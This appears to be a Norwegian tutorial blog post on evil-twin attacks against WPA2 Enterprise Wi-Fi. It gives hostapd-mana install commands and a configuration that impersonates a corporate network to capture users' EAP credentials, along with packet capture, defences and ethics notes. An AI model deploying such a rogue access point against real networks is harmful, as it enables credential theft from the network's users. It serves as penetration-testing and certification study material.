

+++
title = "Angrep på WPA2 Enterprise nettverk"
draft = false
description = "En steg-for-steg guide for å angripe WPA2 enterprise nettverk ved bruk av hostapd-mana og freeradius."
summary = "En steg-for-steg guide for å angripe WPA2 enterprise nettverk ved bruk av hostapd-mana og freeradius."
categories = ["Trådløse Nettverk"]
date = 2025-04-21
tags = ["WPA2", "enterprise", "hostapd-mana", "freeradius", "oswp"]
+++

## WPA Enterprise
WPA Enterprise bruker `Extensible Authentication Protocol (EAP)`, som er et rammeverk for autentisering som tillater en rekke forskjellige autentiseringsmetoder.



### Vanlige EAP-metoder

#### **EAP-TLS**  
- **Hva den gjør:**  
  - Både klienten og serveren presenterer sertifikater.  
- **Hvordan den fungerer:**  
  - Gjensidig autentisering skjer; ingen brukernavn eller passord er nødvendig.  
  - Anses som svært sikker på grunn av sertifikatbasert validering.  

#### **EAP-TTLS**  
- **Hva den gjør:**  
  - Bare serveren trenger et sertifikat.  
- **Hvordan den fungerer:**  
  - Klienten verifiserer serverens sertifikat først.  
  - En sikker tunnel opprettes for å overføre brukerlegitimasjon (f.eks. via `PAP`, `CHAP`, eller `MS-CHAPv2`).  

#### **PEAP**  
- **Hva den gjør:**  
  - Bare serveren har et sertifikat.  
- **Hvordan den fungerer:**  
  - Etter å ha verifisert serveren, etableres en sikker tunnel.  
  - Brukere autentiseres inne i denne tunnelen, typisk med `MS-CHAPv2`.

## Angrepsvektorer på WPA Enterprise

### Evil Twin Attack med Mana

WPA Enterprise-nettverk kan være sårbare for Evil Twin-angrep hvor en ondsinnet tilgangspunkt (Evil Twin) etterligner et legitimt bedrifts-tilgangspunkt.

#### Forberedelse av Angrep

1. **Installere nødvendige verktøy:**
```bash
sudo apt update
sudo apt install hostapd-mana freeradius
```

2. **Konfigurere hostapd-mana:**
```bash
sudo nano /etc/hostapd-mana/mana.conf
```

#### Konfigurasjonsfil for Mana

```bash
# Basic configuration
interface=wlan0
ssid=CorporateWiFi
channel=6
hw_mode=g

# Enable Mana
enable_mana=1
mana_wpe=1

# EAP configuration
ieee8021x=1
eap_server=1
eap_user_file=/etc/hostapd-mana/mana.eap_user
ca_cert=/etc/ssl/certs/ca.pem
server_cert=/etc/ssl/certs/server.pem
private_key=/etc/ssl/private/server.key
```

### Certificate Harvesting

Når klienter prøver å koble til Evil Twin-tilgangspunktet, kan vi fange opp:

- **Brukerlegitimasjon** (brukernavn/passord)
- **Sertifikatinformasjon**
- **Handshake-data**

#### Overvåking og Logging

```bash
# Start mana med logging
sudo hostapd-mana /etc/hostapd-mana/mana.conf

# Overvåk log-filer
tail -f /var/log/hostapd-mana.log
```

### FreeRADIUS Integrasjon

For mer avanserte angrep kan vi integrere med FreeRADIUS:

```bash
# Konfigurer FreeRADIUS for mana
sudo nano /etc/freeradius/3.0/clients.conf
```

### Mottitak og Beskyttelse

#### For Organisasjoner:
1. **Implementer sertifikatvalidering**
2. **Bruk sterke EAP-metoder som EAP-TLS**
3. **Overvåk for uautoriserte tilgangspunkt**
4. **Implementer Network Access Control (NAC)**

#### For Brukere:
1. **Verifiser alltid sertifikater**
2. **Unngå å koble til usikre nettverk**
3. **Bruk VPN når mulig**
4. **Hold enheter oppdaterte**

## Hands-on Demonstration

### Oppsett av Test-miljø

```bash
# Opprett virtuelt miljø for testing
sudo ip netns add testns
sudo ip link set wlan1 netns testns

# Konfigurer test-grensesnitt
sudo ip netns exec testns ip link set wlan1 up
```

### Kjøring av Angrep

1. **Start Evil Twin:**
```bash
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```

2. **Overvåk tilkoblinger:**
```bash
sudo tcpdump -i wlan0 -w capture.pcap
```

3. **Analyser resultater:**
```bash
wireshark capture.pcap
```

## Etiske Hensyn

### Lovlige Aspekter
- **Kun utfør på egne nettverk eller med eksplisitt tillatelse**
- **Følg lokale lover og forskrifter**
- **Respekter andres personvern**

### Ansvarlig Disclosure
- **Rapporter sårbarheter til riktige parter**
- **Gi organisasjoner tid til å fikse problemer**
- **Dokumenter funn ordentlig**

## Konklusjon

WPA Enterprise-nettverk, selv om de er mer sikre enn WPA Personal, kan fortsatt være sårbare for sofistikerte angrep. Forståelse av disse angrepsvektorene er avgjørende for både angripere og forsvarere.

### Viktige Takeaways:
- **Sertifikatvalidering er kritisk**
- **Brukertränning er essensielt**
- **Overvåking av nettverksmiljø er nødvendig**
- **Implementering av forsvarsdybde**

*Denne informasjonen er kun for utdanningsformål og autorisert penetrasjonstesting. Misbruk av disse teknikkene er ulovlig og uetisk.*
